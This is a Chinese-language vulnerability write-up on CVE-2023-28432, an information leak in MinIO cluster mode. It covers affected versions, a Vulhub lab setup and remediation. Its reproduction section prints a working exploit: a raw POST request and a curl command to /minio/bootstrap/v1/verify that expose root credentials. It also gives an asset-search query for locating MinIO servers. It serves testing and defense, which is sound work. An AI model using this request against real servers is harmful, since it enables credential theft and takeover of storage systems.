



MinIO 集群模式信息泄露漏洞 CVE-2023-28432¶
漏洞描述¶
MinIO是一个开源对象存储系统。
在其RELEASE.2023-03-20T20-16-18Z版本（不含）以前，集群模式部署下存在一处信息泄露漏洞，攻击者可以通过发送一个POST数据包获取进程所有的环境变量，其中就包含账号密码MINIO_ROOT_USER和MINIO_ROOT_PASSWORD。
参考链接：
- https://github.com/minio/minio/security/advisories/GHSA-6xvq-wj2x-3h3q
- https://mp.weixin.qq.com/s/GNhQLuzD8up3VcBRIinmgQ
漏洞影响¶
MinIO <= RELEASE.2023-03-20T20-16-18Z
网络测绘¶
app="minio"
环境搭建¶
Vulhub执行如下命令启动一个MinIO集群，其中包含3个以集群模式运行的服务：
docker-compose up -d
集群启动后，访问http://your-ip:9001可以查看Web管理页面，访问http://your-ip:9000是API服务。

漏洞复现¶
这个漏洞存在于API节点http://your-ip:9000/minio/bootstrap/v1/verify上，发送如下数据包即可查看泄露的环境变量：
POST /minio/bootstrap/v1/verify HTTP/1.1
Host: your-ip:9000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

也可以直接 curl：
curl -XPOST http://your-ip:9000/minio/bootstrap/v1/verify
可见，其中包含MINIO_ROOT_USER (accessKey)和MINIO_ROOT_PASSWORD (secretKey)。使用这个账号密码，即可成功登录管理后台：
MINIO_ROOT_USER minioadmin
MINIO_ROOT_PASSWORD minioadmin-vulhub

漏洞修复¶
目前官方已发布安全修复版本，受影响用户可以升级到RELEASE.2023-03-20T20-16-18Z 及以上版本。
https://github.com/minio/minio/releases/tag/RELEASE.2023-03-20T20-16-18Z
临时修复方案，在 waf/ips 等安全产品上配置策略，拒绝所有 post 到 /minio/bootstrap/v1/verify 流量。